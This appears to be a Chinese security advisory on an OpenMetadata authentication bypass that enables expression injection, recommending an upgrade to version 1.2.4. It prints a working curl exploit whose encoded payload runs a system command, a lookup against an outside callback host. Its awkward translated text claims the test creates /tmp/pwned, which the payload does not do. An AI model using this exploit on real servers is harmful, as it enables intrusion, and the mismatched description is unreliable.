 #  【漏洞预警】OpenMetadata 身份验证绕过漏洞   
cexlife  飓风网络安全   2024-04-24 22:43  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu025WOeXJDD9ib9emKB3QQRyVT9dibY2iblNla2BibcYr4iaQYtwjYiavU0AjGeKwEHbMfxOV9QzoXBXNo8g/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu025WOeXJDD9ib9emKB3QQRyVwEarI2LIu0Y5nZuDPQfzgCo0EqjUbbiaJFknMNZtITDPmzY2J8Lxu0A/640?wx_fmt=png&from=appmsg "")  
  
一个新的请求,该请求的路径进行核对这一清单  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu025WOeXJDD9ib9emKB3QQRyVAT1wVVPyibj4QI9Gj7PzYQId4ibMicmVC20VUMFGOZvqfJHHics4j6uVzA/640?wx_fmt=png&from=appmsg "")  
  
攻击者可能使用的路径参数作任何路径包含任何任意字符串，例如，一个请求 GET /api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/111 将与排除的端点的条件,并因此将是处理与没有验证允许的一个攻击者以绕过认证机制,并达到任何任意的终结点,包括上面列出的,导致任意的表达的注射。  
  
curl 'http://localhost:8585/api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%54%28%6a%61%76%61%2e%75%74%69%6c%2e%42%61%73%65%36%34%29%2e%67%65%74%44%65%63%6f%64%65%72%28%29%2e%64%65%63%6f%64%65%28%22%62%6e%4e%73%62%32%39%72%64%58%41%67%61%58%70%73%4e%7a%45%33%62%33%42%69%62%57%52%79%5a%57%46%6f%61%33%4a%6f%63%44%4e%72%63%32%70%72%61%47%4a%75%4d%6d%4a%7a%65%6d%67%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%3d%22%29%29%29'   
  
验证一个文件叫 /tmp/pwned是建立在OpenMetadata服务器**影响:**这个问题可能会导致认证旁路**正式防护方案:**  
  
官方已经发布了修复补丁,请立即更新到安全版本:  
  
OpenMetadata>=1.2.4  
  
**下载链接:**  
  
https://github.com/open-metadata/OpenMetadata/releases   
  
  
